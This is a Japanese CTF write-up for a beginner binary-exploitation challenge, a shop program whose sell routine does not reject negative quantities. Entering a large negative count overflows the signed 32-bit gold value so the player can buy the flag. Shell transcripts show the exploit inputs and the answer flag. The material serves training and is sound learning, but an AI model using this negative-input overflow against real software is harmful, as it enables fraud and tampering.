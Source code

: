 # abnormal (BinaryExploitation, beginner) writeup
整数オーバーフローの脆弱性を起こして所持金をプラスにもっていき、flag を購入する問題。  
所持しているアイテムを売ることができ所持数以上は売ることができないが、マイナスの値のチェックがされていないので整数オーバーフローによって所持金を増やすことができる。

## TL;DL;
1. nc で接続後に 2 (sell) を選択する
2. 整数オーバーフローさせるために、2 (Legendary Sword) を -10000 個売る
3. 32bit int で -2200000000 が加算されたことでオーバーフローが発生し、所持金が大きなプラスになっていることを確認する
4. 1 (buy) を選択後に 4 (flag) を選択して flag を表示させる 


## Details
アクセスすると FLAG を買うことのできるショップであることがわかる。だが、FLAG は 9,999,999 円と高額で持ち物をすべて売却しても買えないため、脆弱性をついて所持金を増やす必要がある。  
![](./images/readme.png)


いろいろ試してみると、所持金を増やせそうな箇所として「売却で指定する個数」が怪しいのではないかと推測できる。試しに伝説の剣の売却数に `2` を指定すると売却できない判定になるが、`-1` を指定すると売却が成立し所持金がマイナスになる。

![](./images/writeup2.png)

売却の処理についてリバースエンジニアリングを行うと、個数より大きい場合についての分岐はあるがマイナスの場合の分岐処理はなく、検証もなしに所持金に対して演算処理を行っている。所持金の変数は「符号付き32bitの整数」(signed int32)であるため、非常に大きなマイナスの個数を与えれば整数オーバーフローが起こりプラスに逆転するはずである。
![](./images/writeup1.png) 

符号付き 32bit の下限値は -2,147,483,648 （-2^31）であるため、伝説の剣の 220,000 円を -10,000 個 (= -2,200,000,000) 売ることで符号が反転しそうである。実行した結果が以下。

```shell=
=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 2
How many Legendary Sword do you want to sell? (you have: 1): > -10000
Thank you :)

+================= Player Status =================+
| 💰 Gold: 2094968296                            |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
```
所持金が爆増して FLAG が買える所持金となったため、FLAG を購入してチャレンジは完遂である。
```shell=
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 1

=== 🛍️ What would you like to buy? ===
 1. Torch - 10 yen
 2. Holy Water - 20 yen
 3. Great Stone - 800 yen
 4. FLAG - 9999999 yen 

Select an item to buy: 4
🎉 Congratulations! Here is your flag:
flag{Th3_m1nu5_cr33p5_b3y0nd_ch405}
```

ちなみに細かい原理までわからずとも、ひたすらにマイナスの値を入れ続ければそのうちオーバーフローするので、マイナスの所持金にピンと来た方がいれば粘り続けることでいつか解けるはずである。

```shell=
$ ./bin/abnormal 

+================= Player Status =================+
| 💰 Gold: 1000                                  |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 1
How many Herb do you want to sell? (you have: 100): > -10000000
Thank you :)

+================= Player Status =================+
| 💰 Gold: -99999000                             |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 2
How many Legendary Sword do you want to sell? (you have: 1): > -1000000
Thank you :)

+================= Player Status =================+
| 💰 Gold: -1056666904                           |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2   

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 1
How many Herb do you want to sell? (you have: 100): > -100000000   
Thank you :)

+================= Player Status =================+
| 💰 Gold: -2056666904                           |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 1
How many Herb do you want to sell? (you have: 100): > -100000000
Thank you :)

+================= Player Status =================+
| 💰 Gold: 1238300392                            |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
```

## flag
`flag{Th3_m1nu5_cr33p5_b3y0nd_ch405}`

## Full PoC
```shell=
$ nc localhost 8101
=================================================
      _____ _ _       _____ _                
     |  ___| (_)_ __ |  ___| | ___  _ __     
     | |_  | | | '_ \| |_  | |/ _ \| '_ \    
     |  _| | | | |_) |  _| | | (_) | |_) |   
     |_|   |_|_| .__/|_|   |_|\___/| .__/    
               |_|                 |_|       
                                              
           Welcome to Flip-Flop Shop!          
=================================================


+================= Player Status =================+
| 💰 Gold: 1000                                  |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 2

=== 🛒 What would you like to sell? ===
 1. Herb - 10 yen 
 2. Legendary Sword - 220000 yen 

Select an item to sell: > 2
How many Legendary Sword do you want to sell? (you have: 1): > -10000
Thank you :)

+================= Player Status =================+
| 💰 Gold: 2094968296                            |
|                                                |
| 🎒 Inventory:                                  |
|   - Herb            x 100                      |
|   - Legendary Sword x 1                        |
+================================================+
Choose an action:
 1. Buy
 2. Sell
 3. Exit
> > 1

=== 🛍️ What would you like to buy? ===
 1. Torch - 10 yen
 2. Holy Water - 20 yen
 3. Great Stone - 800 yen
 4. FLAG - 9999999 yen 

Select an item to buy: 4
🎉 Congratulations! Here is your flag:
flag{Th3_m1nu5_cr33p5_b3y0nd_ch405}
```